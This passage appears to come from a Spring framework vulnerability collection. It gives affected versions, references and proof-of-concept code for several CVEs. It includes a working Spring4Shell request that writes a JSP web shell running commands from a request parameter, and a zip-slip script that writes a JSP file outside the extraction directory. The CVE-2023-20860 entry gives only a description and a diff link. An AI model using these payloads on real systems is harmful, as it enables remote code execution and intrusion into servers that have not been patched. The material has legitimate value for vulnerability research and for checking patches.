 
#### CVE-2022-22965
Affected Version: 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions

Ref: https://www.jianshu.com/p/e0c7a03e40d2

POC:
```
POST /SpringRCEDemo_war_exploded/hello?name=admin&age=2&Class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7bcmd%7di&Class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&Class.module.classLoader.resources.context.parent.pipeline.first.directory=/webapp/&Class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell1&Class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1

cmd: <%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```

#### CVE-2023-20860
Affected Version: 6.0.0 <= x <= 6.0.6, 5.3.0 <= x <= 5.3.25, Versions older than 5.3 are not affected

Official description: 

> Using "**" as a pattern in Spring Security configuration with the mvcRequestMatcher creates a mismatch in pattern matching between Spring Security and Spring MVC, and the potential for a security bypass.

Diff: https://github.com/spring-projects/spring-framework/commit/202fa5cdb3a3d0cfe6967e85fa167d978244f28a

### （9）Spring Integration Zip
#### CVE-2018-1261 Arbitrary File Write
Affected Version: < 1.0.1

Diff: https://github.com/spring-projects/spring-integration-extensions/commit/d10f537283d90eabd28af57ac97f860a3913bf9b#diff-990b7a04b25d4c5b7cb46f536ac149b0

POC:
```
import zipfile
 
if __name__ == "__main__":
    try:
        binary = b'this is a axisx test'
        zipFile = zipfile.ZipFile("./src/main/resources/test.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("test.zip")
        zipFile.writestr("../../axisx.jsp", binary)
        zipFile.close()
    except IOError as e:
        raise e
	
ResourceLoader resourceLoader = new DefaultResourceLoader();
File path =  new File("./targetFolder/");
final Resource evilResource = resourceLoader.getResource("classpath:test.zip");
try{
	InputStream evilIS = evilResource.getInputStream();
	Message<InputStream> evilMessage = MessageBuilder.withPayload(evilIS).build();
	UnZipTransformer unZipTransformer = new UnZipTransformer();
	unZipTransformer.setWorkDirectory(path);
	unZipTransformer.afterPropertiesSet();
	unZipTransformer.transform(evilMessage);
}
```
Factor: 
```
protected Object doZipTransform(final Message<?> message) throws Exception {
    public void process(InputStream zipEntryInputStream, ZipEntry zipEntry) throws IOException {
```